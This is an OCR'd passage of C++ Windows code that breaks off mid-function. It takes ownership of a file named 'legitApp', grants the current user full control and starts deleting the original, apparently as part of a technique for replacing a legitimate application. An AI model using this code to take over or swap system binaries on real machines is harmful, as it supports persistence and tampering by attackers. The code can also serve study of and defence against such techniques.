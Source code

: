 ```cpp
    CloseHandle(hFile);
    return 1;
  }
  printf("init security descriptor: ok\n");

  // set the owner in the security descriptor
  if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
    printf("failed to set security descriptor owner: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting security descriptor owner: ok\n");

  // apply the security descriptor to the file
  if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
    printf("error setting file ownership: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting file ownership: ok\n");

  // set full control for the current user
  EXPLICIT_ACCESS ea;
  PACL pNewAcl = NULL;

  ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
  ea.grfAccessPermissions = GENERIC_ALL;
  ea.grfAccessMode = SET_ACCESS;
  ea.grfInheritance = NO_INHERITANCE;
  ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
  ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
  ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

  if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
    printf("error setting new ACL: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting new ACL: ok\n");

  if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, NULL, 
  NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
    printf("error setting security info: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    LocalFree(pNewAcl);
    return 1;
  }
  printf("setting security info: ok\n");

  free(pTokenUser);
  CloseHandle(hToken);
  LocalFree(pNewAcl);

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
```